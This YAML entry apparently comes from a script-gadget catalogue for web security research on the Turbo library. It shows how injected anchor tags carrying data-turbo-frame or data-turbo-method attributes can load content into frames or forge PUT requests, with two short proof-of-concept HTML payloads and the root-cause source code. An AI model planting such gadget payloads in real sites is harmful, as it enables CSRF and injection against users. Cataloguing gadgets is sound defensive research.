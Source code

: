 ```yaml
---
description: The speed of a single-page web application without having to write any JavaScript.
github: hotwired/turbo
gadgets:
  Latest:
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - a-tag
      - href-attr
      - data-attr
      - any-timing
    pocs:
      - description: |
          The [turbo](https://github.com/hotwired/turbo) library uses the `data-turbo-frame` attribute to specify an iframe to load the response into. For this to work there is several restrictions:

          * The `<a>`'s `href` attribute must be same origin with the current window ([source](https://github.com/hotwired/turbo/blob/71a769167eb64fafed48fe45ed175a54738216af/src/observers/link_prefetch_observer.js#L154)).
          * The target URL must not have an `unvisitableExtensions` like: `.7z`, `.aac`... The full list can be found here: [https://github.com/hotwired/turbo/blob/71a769167eb64fafed48fe45ed175a54738216af/src/core/config/drive.js](https://github.com/hotwired/turbo/blob/71a769167eb64fafed48fe45ed175a54738216af/src/core/config/drive.js).
          * The response Content-Type must be considered as HTML by the following regex: `/^(?:text\/([^\s;,]+\b)?html|application\/xhtml\+xml)\b/` ([source](https://github.com/hotwired/turbo/blob/71a769167eb64fafed48fe45ed175a54738216af/src/http/fetch_response.js#L32)).
        code: |
          <script type="module" src="https://cdn.jsdelivr.net/npm/@hotwired/turbo-rails@8.0.16/app/assets/javascripts/turbo.min.js"></script>
          <turbo-frame id="frame">
          
          <turbo-frame id="message">
            <p>This content will be replaced.</p>
          </turbo-frame>
          
          <!-- user input -->
          <a href="[current-location]/assets/xss/turbo-frame.html" data-turbo-frame="message">Load Message</a>
      - description: |
          While the above example is very limited by the Content-Type restriction, it is possible to uses default [turbo](https://github.com/hotwired/turbo) `data-*` attribute to perform CSRF. For instance, the `data-turbo-method` attribute can be used to change the HTTP method of the request.

          *The full list of available attributes can be found [here](https://turbo.hotwired.dev/reference/attributes).*
        code: |
          <script type="module" src="https://cdn.jsdelivr.net/npm/@hotwired/turbo-rails@8.0.16/app/assets/javascripts/turbo.min.js"></script>
          <turbo-frame id="frame">
          
          <turbo-frame id="message">
            <p>This content will be replaced.</p>
          </turbo-frame>
          
          <!-- user input -->
          <a data-turbo-method="PUT" href="[current-location]/" data-turbo-frame="message">Load Message</a>
        preview: false
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/hotwired/turbo/blob/71a769167eb64fafed48fe45ed175a54738216af/src/core/frames/frame_controller.js#L122">https://github.com/hotwired/turbo/blob/71a769167eb64fafed48fe45ed175a54738216af/src/core/frames/frame_controller.js#L122</a>

      ```javascript
      async loadResponse(fetchResponse) {
        if (fetchResponse.redirected || (fetchResponse.succeeded && fetchResponse.isHTML)) {
          this.sourceURL = fetchResponse.response.url
        }

        try {
          const html = await fetchResponse.responseHTML
          if (html) {
            const document = parseHTMLDocument(html)
            const pageSnapshot = PageSnapshot.fromDocument(document)

            if (pageSnapshot.isVisitable) {
              await this.#loadFrameResponse(fetchResponse, document)
            } else {
              await this.#handleUnvisitableFrameResponse(fetchResponse)
            }
          }
        } finally {
          this.#shouldMorphFrame = false
          this.fetchResponseLoaded = () => Promise.resolve()
        }
      }
      ```
---
```

